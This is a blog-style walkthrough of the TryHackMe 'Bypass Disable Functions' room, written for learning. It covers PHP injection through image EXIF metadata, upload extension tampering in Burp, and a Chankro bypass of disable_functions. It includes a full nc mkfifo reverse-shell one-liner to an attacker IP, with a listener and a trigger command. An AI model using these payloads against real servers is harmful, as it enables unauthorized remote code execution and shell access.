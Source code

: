 ```yaml
---
layout: post
title: "TryHackMe - Bypass Disable Functions"
date: 2023-09-26 15:30:00 -0000
categories: javascript web development
excerpt: "How to get around PHP disabled_functions utilizing Local File Injection (LFI) and a bit on named pipes and reverse shells."
featured_image: "/assets/images//thm-bdf/thm-bdf-hero.jpg"
---
```


> Picture of an European common cat using Tamron AF 70-300mm F4-5.6 Di LD Macro 1:2 lens
> Date 	18 December 2010
> Source 	Own work
> Author 	Florinux  
> http://www.wikimapia.org/#lat=44.647834&lon=7.6567841&z=14&l=4&m=b  


# THM - Bypass Disable Functions  
https://tryhackme.com/room/bypassdisablefunctions  

## First spin up the target machine and navigate to the upload CV page  

We're going to upload an image with a PHP payload. Its benign and will help us gain info about the target system. I searched the interweb for a cat image, I saved it with the .jpg extension.  

## Generate phpinfo() payload using exiftool to inject PHP into an image's Meta Data  
```  
exiftool -Comment='<?php phpinfo(); ?>' ./street-cat.jpg  
```  

## Browse for the image file using the CV upload form. Before submitting, make sure you have Burp Suite setup to intercept requests to the target. Toggle Intercept On and submit the image.  

![](/assets/images//thm-bdf/thm-bdf-upload.png)

## Modify teh POST request to change image file extension from .jpg to .php  
![](/assets/images//thm-bdf/thm-bdf-burp.png)

## Navigate to /uploads/street-cat.php in the browser. We are presented with phpinfo()  
![](/assets/images//thm-bdf/thm-bdf-phpinfo.png)  

Take a look at the disabled_functions and DOCUMENT_ROOT envir0nment variables. The disabled_functions var tells us we can't use many of the classic PHP payload functions. We must resort to using other means. 

## Download and install Chankro  
https://github.com/TarlogicSecurity/Chankro/tree/master

## Generate bash payload (c.sh) using your favorite flavor of text editor or echo. Filepath should point to CONTEXT_DOCUMENT_ROOT
```bash  
#! /bin/bash
find / flag*.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag-location.txt  
#cat /path/to/flag/flag.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag.txt
```  

## Ex3cute chankro command using CONTEXT_DOCUMENT_ROOT value as an argument to generate a .php file  
```  
python2 chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/  
```  
## Add the magic gif word (GIF87a) to the top of the php file. 1 is line number, i is insert  
```  
sed -i '1iGIF87a' tryhackme.php
```  
## Rename the .php file extension to .jpg  
```  
mv tryhackme.php tryhackme.jpg
```  
## Upload the image file and use BurpSuite to rename the extension .php  
![](/assets/images//thm-bdf/thm-bdf-burp-2.png)

## Navigate to /uploads/tryhackme.php  

Try a few payloads... Once the flag is captured, we need to spin up a reverse shell for the sake of learning.  

## Generate a reverse shell payload  
https://revshells.com  
The nc mkfifo payload is very nice.  Change the IP to your attacker machine IP. Run 'ip addr' and look for tun0 or tun1

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```  
## Tangent about Reverse Shells and Named Pipes  

Here’s how it works:

1. **```rm /tmp/f;```** Deletes the file named “f” in the “/tmp” directory if it exists.
2. **```mkfifo /tmp/f;```** Creates a named pipe (FIFO) named “f” in the “/tmp” directory. This pipe acts as a stack for data between processes (First In First Out).
3. **```cat /tmp/f|```** Reads from the named pipe “f.” It effectively listens for any data written into the pipe and sends any data it reads to the standard input (stdin) of the interactive shell.
4. **```sh -i 2>&1|```** Starts an interactive shell (“sh”) and redirects stderr to the same address stdout is using. 2 represents standard error, 1 represents standard output. Redirect to address.
5. **```nc 10.10.10.10 9001```** Initiates a network connection to IP address 10.10.10.10 on port 9001.
6. **```>/tmp/f```** Redirects the standard output of the entire command (including the output from the interactive shell and the output from “nc”) to the named pipe “f” which is then read by **```cat```**.

## Setup the netcat listener on localhost    
```  
nc -lvnp 9001
```  

## Touch off /uploads/tryhackme.php using curl or the browser  
```  
curl https://x.x.x.x/uploads/tryhackme.php
``` 

## Success. Our payload is executed and we receive a connection.  
![](/assets/images//thm-bdf/thm-bdf-nc-mkfifo-shell.png)  

I tried a few variations of the reverse shell before settling on the **```nc mkinfo```** method. Some results of my testing show us the nature of what Chankro is doing behind the scenes. We obviously called the mail() PHP function to get our c.php to run. Kindof ingenious. The output I received was from the mail function. **```mail("a", "a", "a", "a");```** 

## Bind shell  
![](/assets/images//thm-bdf/thm-bdf-bind-shell.png)  

## Reverse Shell  
![](/assets/images//thm-bdf/thm-bdf-rev-shell.png)  

## Links I found along the way...  
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass  

https://www.positioniseverything.net/php-shell_exec/  

https://www.tarlogic.com/blog/bypass-disable_functions-open_basedir/  

https://shahjerry33.medium.com/remote-code-execution-via-exif-data-im-dangerous-43557d7f3e7a  

https://marketsplash.com/tutorials/php/php-reverse-shell/  

https://github.com/pentestmonkey/php-reverse-shell  

https://www.geeksforgeeks.org/uploading-a-reverse-shell-to-a-web-server-in-kali-linux/  

https://highon.coffee/blog/reverse-shell-cheat-sheet/  

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/